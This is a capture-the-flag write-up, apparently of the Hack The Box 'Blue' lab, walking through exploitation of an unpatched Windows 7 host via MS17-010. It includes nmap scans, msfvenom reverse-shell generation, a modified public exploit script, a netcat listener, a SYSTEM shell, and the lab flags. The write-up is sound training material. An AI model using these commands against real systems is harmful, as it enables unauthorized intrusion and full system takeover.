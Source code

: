 ```yaml
---

layout: post
title: Blue
tags: [OSCP, writeup, Windows, shellcode, SMB]
description: "Blue write-up"
---
```


![Blue logo](/assets/imgs/blue/blue.png)

### This is an easy windows box

## Tools used

------

- msfvenom
- nc
- nmap
- python
- searchsploit

## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA blue 10.10.10.40 -v

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -13m23s, deviation: 34m37s, median: 6m34s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-07-18T08:55:19+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-07-18T07:55:17
|_  start_date: 2020-07-18T07:52:58
```

Here’s what nmap teaches us :

- port 139 (NETBIOS)
- port 445 (SMB)
- Windows 7 Professional 6.1

So we have a windows 7 with SMB ports open. Let's check with nmap if we have some known exploit with SMB.

```
nmap --script "smb-vuln*" -p 139,445 10.10.10.40 -v

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

Results :

- ms17-010 : RCE

Nice, we have a RCE, let's search for exploit code.

### Searchsploit

![Searchsploit ms17-010](/assets/imgs/blue/searchsploit_ms17-010.PNG)

There's a Metasploit module, but let's not use it. I have to do it manually !

## Exploit

------

I'm going to use this exploit "windows/remote/42315.py", download it, like so :

```bash
searchsploit -m windows/remote/42315.py
```

Reading the code we need to modify it a little bit.

- Change the username/password
- Change the shellcode, so that the code use mine

Generate the reverse shell with msfvenom :

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=1234 EXITFUNC=thread -f exe -a x86 --platform windows -o reverse_shell.exe
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: reverse_shell.exe
```

As username I'll use "guest" and no password.

Now modify the python code :

```python
USERNAME = 'guest'
PASSWORD = ''

[...]

smb_send_file(smbConn, "/home/liodeus/Downloads/hackthebox/blue/shellcode.exe", 'C', '/shellcode.exe')
service_exec(conn, r'cmd /c c:\\shellcode.exe')
```

Before executing the exploit, open a nc listener.

```bash
nc -lvp 1234
```

Then launch the exploit.

```python
python 42315.py 10.10.10.40
```

Go to the nc listener and voila !

```python
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.40: inverse host lookup failed: Unknown host
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.40] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

We are root ! Go read the flags now !

## Flags

------

### User.txt

```python
C:\>dir /b/s user.txt
dir /b/s user.txt
C:\Users\haris\Desktop\user.txt

C:\>type C:\Users\haris\Desktop\user.txt
type C:\Users\haris\Desktop\user.txt
4c546aea7dbee75cbd71de245c8deea9
```

### Root.txt

```python
C:\>dir /b/s root.txt
dir /b/s root.txt
C:\Users\Administrator\Desktop\root.txt

C:\>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
ff548eb71e920ff6c08843ce9df4e717
```